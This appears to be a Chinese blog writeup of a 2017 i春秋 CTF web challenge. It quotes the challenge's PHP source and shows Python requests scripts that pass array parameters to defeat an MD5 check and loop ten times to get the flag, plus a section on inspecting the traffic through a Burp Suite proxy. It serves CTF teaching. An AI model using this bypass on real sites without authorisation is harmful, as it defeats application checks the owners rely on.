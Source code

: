 ```yaml
---
title: 【i春秋】 Web —— 爆破-3
copyright: true
date: 2018-09-11 23:06:53
tags: [i春秋,CTF,writeup,web,audit,php,python,http]
categories: [InfoSec,Web]
---
```


# 0x00 前言

此题出自「百度杯」CTF 比赛 2017 二月场，是第三道 「爆破」系列的 Web 题，主要考察在理解了题目 PHP 代码的逻辑后，**通过网络编程与服务器交互获取 flag** 的能力，难度中低，需要的基础知识有：**PHP、Python、HTTP协议**。

题目链接在「i春秋」的 CTF 大本营，解题链接通过创建在线靶场后得到：

- 题目链接：[https://www.ichunqiu.com/battalion?t=1&r=57475](https://www.ichunqiu.com/battalion?t=1&r=57475)

<!-- more -->

![question](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/question.png)

# 0x01 理解 PHP 代码逻辑

打开链接，发现本题的 PHP 源码比前两题要复杂，做审计题首先是要理解代码逻辑：

```php
<?php 
error_reporting(0);
session_start();
require('./flag.php');
if(!isset($_SESSION['nums'])){
  $_SESSION['nums'] = 0;
  $_SESSION['time'] = time();
  $_SESSION['whoami'] = 'ea';
}

if($_SESSION['time']+120<time()){
  session_destroy();
}

$value = $_REQUEST['value'];
$str_rand = range('a', 'z');
$str_rands = $str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)];

if($_SESSION['whoami']==($value[0].$value[1]) && substr(md5($value),5,4)==0){
  $_SESSION['nums']++;
  $_SESSION['whoami'] = $str_rands;
  echo $str_rands;
}

if($_SESSION['nums']>=10){
  echo $flag;
}

show_source(__FILE__);
?>
```

- Line 3~9：开始会话，包含 flag.php 文件，为超级全局变量 [`$_SESSION`](http://php.net/manual/en/reserved.variables.session.php) 的三个参数初始化。
- Line 11~13：若 Session 有效期超过了两分钟，则销毁当前会话。
- Line 15~17：先通过 GET 请求或 POST 请求获取的 `value` 参数，再随机选择两个小写字母拼接成字符串。
- Line 19~23：若 `$_SESSION['whoami']` 等于 `$value` 数组中两个元素的拼接，并且 `$value` 的 MD5 哈希值的第 5~8 位等于 0，则将 `$_SESSION['nums']` 自增，将 `$_SESSION['whoami']` 更新为随机字符串并输出。
- Line 25~27：若 `$_SESSION['nums']` 大于等于 10，则输出 flag。

理解了代码逻辑后，再结合提示，基本可判断此题真的需要通过网络交互，来「爆破」获取 flag。

# 0x02 编写 Python 网络通信脚本

本题的难点是**如何通过 GET 或 POST 请求，传送同一数组参数的不同元素值**。常见方法有以下两种：

- `value[]=e&value[]=a`
- `value[0]=e&value[1]=a`

使用 Firefox 浏览器，针对 GET 请求进行验证。第一种方法：

![method1](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/method1.png)

第二种方法：

![method2](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/method2.png)

针对 POST 请求同样适用，请读者自行验证。

将页面显示的新值传入 `value` 参数后，按上述方法手动循环 10 次，即可满足输出 flag 的条件，但只仅对于次数少的情况有效，如果循环 100 次，还想继续手动操作吗？这时，使用 Python 的**第三方开源库 [Requests](http://www.python-requests.org/en/master/)** 编写自动化脚本，即可轻松解决问题，基本用法可参考：

> [详解 CTF Web 中的快速反弹 POST 请求](https://ciphersaw.github.io/2017/12/16/%E8%AF%A6%E8%A7%A3%20CTF%20Web%20%E4%B8%AD%E7%9A%84%E5%BF%AB%E9%80%9F%E5%8F%8D%E5%BC%B9%20POST%20%E8%AF%B7%E6%B1%82/)

以下是针对 GET 请求构造的 Python 解题脚本：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import requests

url = "http://2428bbb29ccc4976b0d6d3f5630e3d0a215aedbbe5bf457e.game.ichunqiu.com/"
s = requests.Session()
whoami = "ea"
for i in range(10):
	print(whoami)
	payload = "?value[0]={}&value[1]={}".format(whoami[0], whoami[1])
	response = s.get(url + payload)
	whoami = response.text[:2]
print(response.text)
```

- Line 8~12：自动循环提交 10 次 GET 请求，并输出每次循环的 `value` 参数。
- Line 13：将最后一次响应的报文内容输出，即可看到 flag。

![flag](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/flag.png)

将第 10 行改为 `payload = "?value[]={}&value[]={}".format(whoami[0], whoami[1])` 同样能获得 flag。

# 0x03 使用 BurpSuite 抓取 Python 流量数据

针对 GET 请求直接构造字符串 payload 相对简单，如果使用 POST 请求，还需要构造表单数据的 `dict` 类型变量。以下是针对 POST 请求构造的 Python 解题脚本：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import requests

url = "http://2428bbb29ccc4976b0d6d3f5630e3d0a215aedbbe5bf457e.game.ichunqiu.com/"
s = requests.Session()
whoami = "ea"
for i in range(10):
	print(whoami)
	payload = {"value[0]": whoami[0], "value[1]": whoami[1]} 
	response = s.post(url, data = payload)
	whoami = response.text[:2]
print(response.text)
```

显而易见，只有第 10、11 行与 GET 请求不同，运行完上述脚本后也能获得 flag。不过，当我们依葫芦画瓢将第 10 行改为 `payload = {"value[]": whoami[0], "value[]": whoami[1]} ` 后，却发现无法获得 flag 了：

![flag_failure](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/flag_failure.png)

借此机会，讲解一下如何使用 Burp Suite 抓取 Python 发送的网络请求包，相信大家看到请求包后，答案便一目了然。以下是利用代理抓取 POST 请求包的 Python 脚本：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import requests

url = "http://2428bbb29ccc4976b0d6d3f5630e3d0a215aedbbe5bf457e.game.ichunqiu.com/"
s = requests.Session()
whoami = "ea"
payload = {"value[]": whoami[0], "value[]": whoami[1]} 
burp = {"http": "127.0.0.1:8080"}
response = s.post(url, data = payload, proxies = burp)
```

- 构造 POST 请求中 [`proxies` 代理参数](http://docs.python-requests.org/en/master/user/advanced/#proxies)的 `dict` 类型变量，其中 `http` 是代理访问 URL 的协议类型，`127.0.0.1:8080` 是 Burp Suite 的本地监听地址与端口号。

将 Burp Suite 开启 Intercept 模式，运行上述脚本即可看到：

![burp_failure](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/burp_failure.png)

可发现表单数据只剩 `value[]=a`，原来前面 `value[]=e` 的值已被覆盖。那么问题来了，如何构造 POST 请求中不带索引的同一数组参数的不同值呢？

正确的构造方法是 `payload = {"value[]": [whoami[0], whoami[1]]} ` ，再次运行脚本，即可看到表单数据正常提交了：

![burp_success](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/burp_success.png)

其实，使用 requests 模块自带的方法也能查看请求头与请求体，对应的 Python 脚本如下：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import requests

url = 'http://2428bbb29ccc4976b0d6d3f5630e3d0a215aedbbe5bf457e.game.ichunqiu.com/'
s = requests.Session()
whoami = "ea"
payload = {"value[]": [whoami[0], whoami[1]]} 
response = s.post(url, data = payload)
print(response.request.headers)
print(response.request.body)
```

运行后即可在终端上看到请求头与请求体：

![requests_body](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_3/requests_body.png)